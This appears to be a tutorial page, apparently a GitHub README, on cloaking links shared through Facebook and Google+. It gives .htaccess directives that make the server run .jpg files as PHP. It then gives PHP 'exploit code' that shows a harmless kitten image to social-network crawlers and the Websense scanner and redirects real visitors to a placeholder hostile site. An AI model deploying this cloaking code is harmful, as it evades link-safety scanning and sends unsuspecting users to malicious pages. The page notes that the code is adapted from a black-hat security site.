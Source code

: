 <p> These requests to the google.com server are easily identifiable because the user-agent of the incoming request is an indication of the social networking site being used or the IP address of the incoming request resolves to a particular domain name. For e.g Facebook uses a custom user-agent with the name "facebookexternalhit" and have their IP addresses resolve to tfbnw.net whereas Google+ uses a custom user-agent with the name "Feedfetcher-Google". </p>
 
<p>By using some custom php code like  "$_SERVER['HTTP_USER_AGENT']" to get the user-agent value and "gethostbyaddr($_SERVER['REMOTE_ADDR'])" to resolve the IP address we can easily identify whether the request is coming from a social networking site like Google+ or Facebook or just a regular user.</p>

<h2>Implementation</h2>

<p>One of the most important things in order to implement this is to have a domain and an access to a publicly reachable server. We will have a .jpg on our server which will have the php code to identify the user-agent or IP address and display the response accordingly. However in order for the php code to be run in the jpg file, the jpg file must be interpreted as a php file by the server. The following two lines when added in the .htaccess file will serve our purpose. The code has been taken from http://www.blackhatacademy.org/security101/Facebook </p>

``` php
    AddType x-httpd-php .jpg
    AddHandler application/x-httpd-php .jpg
``` 


<p>The first line assures that any .jpg file will be interpreted as a php file whereas the second line assures that any file with the externsion .jpg will be treated as a php program. </p>


<p>Once this is done, we need to have the php code in our .jpg file on the server. The following lines of code demonstrate the exploit code for Facebook, Google+ and Websense. The code has been taken from <a href ="http://www.blackhatacademy.org/security101/Facebook">http://www.blackhatacademy.org/security101/Facebook</a>  with the comments and the code a bit modified.  </p>

``` php
    <?php
    # User agent checking methods
    #user-agent string for Facebook
    $fb_string = '/facebookexternal/i'; 
    #user-agent string for GooglePlus             
    $gplus_string = '/Feedfetcher-Google/i';       .
    # rDNS Lookup Methods
    # Websense Host 
    $host_websense = '/websense.com/i';
    # facebook host         
    $host_fb = '/tfbnw.net/i';                              
    # Load the request properties
    # Load the user-agent
    $u_agent = $_SERVER['HTTP_USER_AGENT'];
    # Load the http-referrer
    $u_ref     = $_SERVER['HTTP_REFERER'];
    #Resolve the Remote address to a domain
    $u_host  = gethostbyaddr($_SERVER['REMOTE_ADDR']);
    # If we're coming from or facebook or websense or google plus, 
    if (preg_match($host_fb,$u_host) || preg_match($host_websense,$u_host) || preg_match($fb_string,$u_agent) || preg_match($gplus_string,$u_agent)) {
        # Display an image
        header('Content-Type: image/jpeg');
        @readfile ('/var/www/localhost/cute_kitten.jpeg');
    } else {
        # Rickroll this unsuspecting user
        header('Location: http://evilsite.com');
    }
    ?>
```